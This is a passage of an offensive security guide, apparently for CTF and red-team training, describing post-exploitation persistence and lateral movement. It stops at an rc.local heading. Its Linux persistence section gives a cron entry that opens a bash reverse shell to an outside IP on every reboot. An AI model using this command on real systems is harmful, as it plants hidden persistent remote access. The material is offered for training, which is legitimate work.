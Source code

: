 ```yaml
---
icon: person-from-portal
---
```


# PostExploitation

## **Post-Exploitation: Persistence & Lateral Movement — The Operator’s Playbook**

***

Once you’ve escalated to root or SYSTEM, the game shifts from “getting in” to **staying in**, **expanding access**, and **owning the environment**.\
Post-exploitation is where reconnaissance becomes control — persistence, data theft, privilege expansion, and stealth are your weapons.

This section focuses on **real-world operator methodology** for maintaining and extending access during CTFs, red team operations, and advanced labs.

***

### I. 🧩 Core Concepts

| Concept                 | Description                                            |
| ----------------------- | ------------------------------------------------------ |
| **Persistence**         | Methods to maintain access after reboot or logout.     |
| **Lateral Movement**    | Expanding from one system/user to another.             |
| **Privilege Retention** | Ensuring continuous elevated access.                   |
| **Data Exfiltration**   | Extracting sensitive information (flags, creds, loot). |
| **Covering Tracks**     | Evading detection and cleaning artifacts.              |

***

### II. 🔒 Persistence Techniques

Persistence is about **surviving resets and reboots** — staying invisible yet present.

***

#### 🧠 1. Linux Persistence

**🔹 Add a Cron Job**

```bash
echo "@reboot bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" >> /etc/crontab
```

**🔹 Modify rc.local**
